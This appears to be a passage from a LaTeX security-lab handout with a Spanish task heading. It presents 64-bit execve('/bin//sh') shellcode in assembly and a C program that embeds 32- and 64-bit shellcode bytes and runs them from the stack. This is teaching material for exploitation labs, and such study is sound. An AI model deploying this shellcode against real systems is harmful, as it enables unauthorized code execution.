We provide a sample 64-bit shellcode in the following.
It is quite similar to the 32-bit shellcode, except that 
the names of the registers are different and the 
registers used by the \texttt{execve()} system call
are also different. Some explanation of the code is given in the 
comment section, and we will not provide detailed 
explanation on the shellcode. 


\begin{lstlisting}[language={[x86masm]Assembler}]
xor  rdx, rdx        ; rdx = 0: execve()'s 3rd argument
push rdx
mov  rax, '/bin//sh' ; the command we want to run
push rax             ; 
mov  rdi, rsp        ; rdi --> "/bin//sh": execve()'s 1st argument 
push rdx             ; argv[1] = 0
push rdi             ; argv[0] --> "/bin//sh"
mov  rsi, rsp        ; rsi --> argv[]: execve()'s 2nd argument
xor  rax, rax
mov  al,  0x3b       ; execve()'s system call number
syscall              
\end{lstlisting}



\subsection{Tarea: Invocando el Shellcode} 

We have generated the binary code from the assembly code above, and
put the code in a C program called \texttt{call\_shellcode.c} inside
the \texttt{shellcode} folder. If you would like to learn how to 
generate the binary code yourself, you should work on the Shellcode lab. 
In this task, we will test the shellcode. 

\begin{lstlisting}[language=C, caption=\texttt{call\_shellcode.c}, label=call_shellcode]
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

const char shellcode[] =
#if __x86_64__
  "\x48\x31\xd2\x52\x48\xb8\x2f\x62\x69\x6e"
  "\x2f\x2f\x73\x68\x50\x48\x89\xe7\x52\x57"
  "\x48\x89\xe6\x48\x31\xc0\xb0\x3b\x0f\x05"
#else
  "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
  "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
  "\xd2\x31\xc0\xb0\x0b\xcd\x80"
#endif
;

int main(int argc, char **argv)
{
   char code[500];

   strcpy(code, shellcode); // Copy the shellcode to the stack
   int (*func)() = (int(*)())code;
   func();                 // Invoke the shellcode from the stack
   return 1;
} 
\end{lstlisting}
 
